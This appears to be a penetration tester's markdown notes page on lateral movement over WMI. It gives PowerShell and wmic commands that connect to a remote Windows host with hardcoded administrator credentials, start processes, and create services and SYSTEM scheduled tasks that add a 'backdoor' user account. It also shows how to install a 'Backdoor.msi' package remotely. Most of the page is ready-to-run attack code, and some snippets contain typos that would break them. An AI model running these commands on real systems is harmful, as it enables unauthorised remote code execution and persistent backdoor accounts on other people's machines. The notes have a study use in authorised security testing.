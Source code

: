 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#wmi
[WMI](../../Windows/Windows%20Internals/Uncategorized/WMI.md)
# Connecting to WMI on remote machine
### Protocols support
- **DCOM**: RPC over IP. Uses port 135/TCP and port 49152-65535/TCP.
- **Wsman**: Uses WinRM. uses port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
```powershell
# Create the PSCredential object to store the credntial
$username = "Administrator";
$password = "Password123";
$securepassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = [System.Management.Automation.PSCredential]::new($username,$securepassword);

# Configure Protocol to use
$opt = New-CimSessionOption -Protocol DCOM;

# Connect to the remote computer 
$session = New-CimSession -ComputerName <SERVER> -Credential $credential -SessionOption $opt -ErrorAction Stop;
```

# Remote Process Creation
- Required Group Membership : Administrators
### Powershell
```powershell
# Create a string storing the command to be executed
$command = "powershell.exe -Command Set-Content -Path C:\Temp\text.txt -Value Hello,World!";

Invoke-CimMethod -CimSession $session -Classname Win32_Process -MethodName create -Arguments @{
	CommandLine = $command;
} 
```
### WMIC
```powershell
# For legacy system using wmic.exe
wmic.exe /user:administrator /password:password123 /node:<server> process call create "cmd.exe /c calc.exe"
```
# Remote Service Creation
- Required Group Membership: Administrator
### Powershell
```powershell
# Create service
Invoke-CimMethod -CimSession $session -ClassName Win32_Service -MethodName create -Arguments @{
	Name = "MyService";
	DisplayName = "MyService";
	PathName = "net user backdoor password /add";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
	StartMode = "Manual";
}

# Create a service object
$service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'MyService'"

# Start the service
Invoke-CimMethod -InputObject $service -MethodName StartService
# Stop the service
Invoke-CimMethod -InputObject $service -MethodName StopService
# Delete Service
Invoke-CimMethod -InputObject $service -MethodName Delete
```
# Remote Schedule Task Creation
- Required Group Membership: Administrators
### Poweshell
```powershell
# Create command and argument
$Command = "cmd.exe"
$Args = "/c net user backdoor pass /add"

# Create and Run schedule task
$Action = New-ScheduleTaskAction -CimSession $session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "backdoor"
Start-ScheduledTask -CimSession $Session -TaskName "backdoor"

Unregister-ScheduledTask -CimSession $session -TaskName "backdoor"
```
# Installing MSI packages
- MSI packages can be installed using WIM using the `Win32_Product` class's static `Install` method 
### Powershell
```powershell
Invoke-CimMethod -CimSession $session -Class Win32_Product -MethodName Install -Arugments @{
	PackageLocation = "C:\Windows\Backdoor.msi";
	Options = "";
	AllUsers = $false;
}
```
### WMIC
```Powershell
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```
